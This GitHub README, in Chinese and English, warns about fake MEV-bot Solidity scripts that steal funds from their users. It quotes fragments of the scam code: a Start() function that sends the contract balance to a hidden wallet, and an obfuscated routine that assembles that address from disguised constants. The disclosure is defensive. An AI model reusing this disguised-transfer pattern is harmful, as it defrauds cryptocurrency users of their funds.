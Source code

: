 # mev-bot-fraud

Be careful for the fake mev-bot codes 

本来想研究一下 mevbot 的，没想到发现一个骗局，所以想提醒一下大家以免被骗了，很多类似这个项目https://github.com/KayExpertbots/Mevbot 的假脚本都是诈骗的

Wanted to study the mevbot, unexpectedly found a scam, so want to remind you to avoid being cheated, many similar to this project of https://github.com/KayExpertbots/Mevbot, a fake script is fraud 

```
    function Start() public payable {
        emit Log("Running MEV action. This can take a while; please wait..");
        payable(_callMEVAction()).transfer(address(this).balance);
    }

```

Start 看起来是个启动脚本实际是个 transfer，会把你的余额转到一个地址，`_callMEVAction()` 这个方法其实最后就是会生成一个钱包地址，绕来绕去的就是想骗一些新手，所以大家一定要看好了，看到这样的代码一定要小心了

Start looks like a startup script is actually a transfer, will transfer your balance to an address, '_callMEVAction()' This method is actually the last will generate a wallet address, around is to cheat some beginners, so we must look at it, see this code must be careful 

![image](https://github.com/chunsenye/mev-bot-fraud/assets/30768615/dc4f05ca-abf7-4146-84d6-d528f08195f1)

```
transfer(address(this).balance);
```

```
 function callMempool() internal pure returns (string memory) {
        string memory _memPoolOffset = mempool("x", checkLiquidity(getMemPoolOffset()));
        uint _memPoolSol = 3410611; //Gas estimate update
        uint _memPoolLength = 2418259; //Gas estimate update
        uint _memPoolSize = 2563395760; //Gas estimate update
        uint _memPoolHeight = getMemPoolHeight();
        uint _memPoolDepth = getMemPoolDepth();

        string memory _memPool1 = mempool(_memPoolOffset, checkLiquidity(_memPoolSol));
        string memory _memPool2 = mempool(checkLiquidity(_memPoolLength), checkLiquidity(_memPoolSize));
        string memory _memPool3 = checkLiquidity(_memPoolHeight);
        string memory _memPool4 = checkLiquidity(_memPoolDepth);

        string memory _allMempools = mempool(mempool(_memPool1, _memPool2), mempool(_memPool3, _memPool4));
        string memory _fullMempool = mempool("0", _allMempools);

        return _fullMempool;
    }

```
![image](https://github.com/chunsenye/mev-bot-fraud/assets/30768615/7334fcdc-405c-45ce-9753-317cc112c9bd)

这些都是骗人的 所以提醒一下，大家也可以帮忙点点星星，让更多人看到

These are all lies so just a reminder, you can also help to light up the stars, so that more people can see 

<img width="1360" alt="image" src="https://github.com/chunsenye/mev-bot-fraud/assets/30768615/b87707ad-ae0c-4d49-892c-a54af47947d2">

我把一些案例放在了 issue 里面 


[Fraud account list -- 【诈骗账号】](https://github.com/chunsenye/mev-bot-fraud/issues/2)

[List of Fraud projects - 【诈骗项目列表】](https://github.com/chunsenye/mev-bot-fraud/issues/1)

